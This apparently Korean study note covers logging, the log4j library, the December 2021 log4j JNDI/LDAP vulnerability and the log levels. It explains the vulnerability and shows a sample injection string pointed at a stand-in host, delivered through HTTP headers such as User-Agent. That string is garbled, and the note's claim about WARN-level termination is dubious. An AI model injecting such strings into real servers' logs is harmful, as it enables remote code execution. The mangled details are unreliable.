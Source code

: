 **⏩ 개념**

> 로그(Log)란 프로그램 개발이나 운영 시 발생하는 문제점을 추적하거나 운영 상태를 모니터링하기 위한 텍스트이다. <br>


**⏩ log4j**

보통 log4j 라이브러리를 활용하여 로그를 저장한다.

log4j란 Java 기반의 로깅 유틸리티로, Apache에서 만든 오픈소스 라이브러리다. 

Log for Java라는 뜻으로 Jakarta-project에서 Java를 위한 프로젝트 중 하나로 처음부터 Java의 예외를 처리하기 위해 설계되었다.

프로그램 실행 시 자동으로 지정한 경로에 로그를 저장해주는 기능을 한다. <br>

***+) log4j 취약점 ::  2021년 12월***

우선 이 취약점은 **JNDI**와 **LDAP**를 이용한다. **JNDI**는 **Java Naming and Directory Interface**의 약자로 1990년대 후반부터 Java에 추가된 인터페이스이다. Java 프로그램이 **디렉토리**를 통해 **데이터**(Java 객체 형태)를 찾을 수 있도록 하는 디렉토리 서비스이다.

JNDI는 이러한 디렉토리 서비스를 위해 **다양한 인터페이스**가 존재하는데 그 중 하나가 **LDAP**이다. 이 LDAP가 이번 취약점에 가장 중요한 포인트이다.

Java 프로그램들은 앞서 말한 JNDI와 LDAP를 통해 Java 객체를 찾을 수 있다. 예시로 URL ldap://localhost:389/o=JNDITutorial을 접속한다면 LDAP 서버에서 JNDITutorial 객체를 찾을 수 있는 것이다.

이러한 접근 인터페이스가 이번 사태에 치명적이게 된 이유는, Log4j에는 편리하게 사용하기 위해 ${prefix:name} 형식으로 **Java 객체를 볼 수 있게 하는 문법**이 존재하기 때문이다. 예를 들어 **${java:version}은 현재 실행 중인 Java 버전**을 볼 수 있게 한다.

이런 문법은 **로그가 기록될 때도 사용이 가능**했고, 결국 해커가 **로그에 기록되는 곳을 찾아 ${jndi:sndi:snd://example.com/a}과 같은 값을 추가**하기만 하면 **취약점을 이용**할 수 있는 것이다. 이 값을 넣는 방법은 **User-Agent와 같은 일반적인 HTTP 헤더**일 수도 있고 여러가지 방법이 있다.

즉, 로그가 기록되는 곳을 찾아 값을 추가하면 외부 리소스를 다운받을 주소가 공격자의 서버가 되기 때문에 아주 손쉽게 !! 악성코드가 침투하는 것이다. <br>


**⏩ logging level**

- **FATAL**
    
    FATAL 로그는 아주 심각한 에러가 발생한 상태이다. 시스템적으로 심각한 문제가 발생해서 어플리케이션 작동이 불가능할 경우를 뜻한다.
    

- **ERROR**
    
    ERROR 로그는 프로그램 동작에 큰 문제가 발생했다는 것으로 즉시 문제를 조사해야 하는 수준이다.
    
    `예) DB를 사용할 수 없는 상태, 중요 에러가 나오는 상황`
    

- **WARN**
    
    WARN 로그는 주의해야 하지만, 프로세스는 계속 진행되는 상태를 말한다. 하지만 WARN 상태에서도 아래 2가지 문제가 발생하면 프로세스가 종료된다.
    
    - 명확한 문제 : 현재 데이터를 사용 불가, 캐시값 사용 등
    - 잠재적 문제 : 개발 모드로 프로그램 시작, 관리자 콘솔 비밀번호가 보호되지 않고 접속 등
    
- **INFO**
    
    중요한 비즈니스 프로세스가 시작될 때와 종료될 때를 알려주는 로그를 말한다.
    
    `예) ~가 ~를 실행했음`
    
- **DEBUG**
    
    개발자가 기록할 가치가 있는 정보를 남기기 위해 사용하는 레벨의 로그이다.
    

DEBUG > INFO > WARN > ERROR > FATAL 순으로 로그가 찍힌다. <br>


**⏩ 참고**

[https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=2zino&logNo=221641662104](https://m.blog.naver.com/PostView.naver?isHttpsRedirect=true&blogId=2zino&logNo=221641662104)

[https://pig-programming.tistory.com/51](https://pig-programming.tistory.com/51)

[https://mdj1234.tistory.com/63](https://mdj1234.tistory.com/63)
